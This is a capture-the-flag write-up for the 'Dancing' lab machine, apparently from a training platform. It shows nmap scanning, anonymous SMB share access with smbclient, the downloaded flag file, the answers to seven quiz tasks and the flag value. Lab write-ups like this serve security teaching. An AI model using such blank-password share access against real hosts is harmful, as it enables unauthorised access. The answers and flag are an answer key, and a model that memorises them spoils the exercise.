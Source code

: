 Starting Point - Tier 0

-Machine Name: Dancing

-Difficulty: Very Easy

-IP address: 10.129.246.161



##      Steps:

- scan to show the service
    
      sudo nmap 10.129.246.161 -sV -Pn

- enter root

      sudo su
- list shared resources

      smbclient -L 10.129.246.161
- connect to the shared smb folder

        smbclient \\\\\10.129.246.161\\WorkShares

- list the files inside the smb shared folder

      ls
- open each files

      cd Amy.J
      cd Jmaes.P

- download the file

      get flag.txt
- back to root

      ctrl + c
- go to the directory where the file is located

      cd Downloads
- open the file

      cat flag.txt

##   Tasks:

Task 1

-What does the 3-letter acronym SMB stand for?


    Server Message Block


Task 2

-What port does SMB use to operate at?


    445


Task 3

-What is the service name for port 445 that came up in our Nmap scan?


    microsoft-ds


Task 4

-What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?


    -L


Task 5

-How many shares are there on Dancing?


    4


Task 6

-What is the name of the share we are able to access in the end with a blank password?


    WorkShares


Task 7

-What is the command we can use within the SMB shell to download the files we find?


    get


Submit Flag

-Submit root flag


    5f61c10dffbc77a704d76016a22f1664
